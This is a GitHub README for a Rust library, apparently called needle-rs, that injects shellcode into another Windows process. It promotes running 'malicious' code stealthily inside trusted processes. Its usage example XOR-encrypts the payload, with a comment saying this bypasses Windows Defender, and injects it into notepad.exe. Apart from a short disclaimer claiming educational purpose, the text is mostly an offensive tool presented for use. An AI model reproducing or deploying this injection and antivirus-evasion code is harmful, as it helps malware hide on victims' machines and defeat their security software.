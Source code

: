 # Rust Process Injection (Windows Only)
[Documentation](https://swiiz.github.io/needle-rs/needle/index.html) - [Apache 2.0 License](https://github.com/Swiiz/needle-rs/blob/main/LICENSE) - [Author](https://github.com/Swiiz)

> Process injection is a technique used to execute arbitrary code in the address space of a separate live process. It is commonly used in both legitimate applications, such as debugging tools, and malicious activities, such as malware attacks. The main goal of process injection is to manipulate the target process to run the injected code with the same permissions and context as the original process, often to evade detection and security measures.

Allows for running "malicious" code stealthily within the context of trusted processes, bypassing security controls. 

## How to use:
```TOML
# Cargo.toml
# ...
[dependencies]
needle = { git = "https://github.com/Swiiz/needle-rs.git", features = [ "windows" ] }
```
```RUST
use needle::{
    cypher::{PayloadCypher, XorCypher},
    find_process, inject, Shellcode,
};

const SHELL_CODE: &[u8] = include_bytes!("YOUR_PAYLOAD.bin");
const KEY: u8 = 0x42;

fn main() {
    let payload = XorCypher::<Shellcode>::from_encrypted(SHELL_CODE, KEY); // The payload is encrypted one time using  XorCypher -> Allows for bypassing windows defender on my machine

    let process = find_process("notepad.exe").expect("Target process not found"); // Find a process with the name "notepad.exe"
    if let Err(e) = inject(process, payload) { // Inject the payload
        println!("Could not inject payload: {}", e);
    }
}

```
**If anyone is interested in implementing other platforms/methods/cyphers, please feel free to contribute 👍**

## Disclaimer
Information and code provided on this repository are for educational purposes only. The creator is in no way responsible for any direct or indirect damage caused due to the misuse of the information.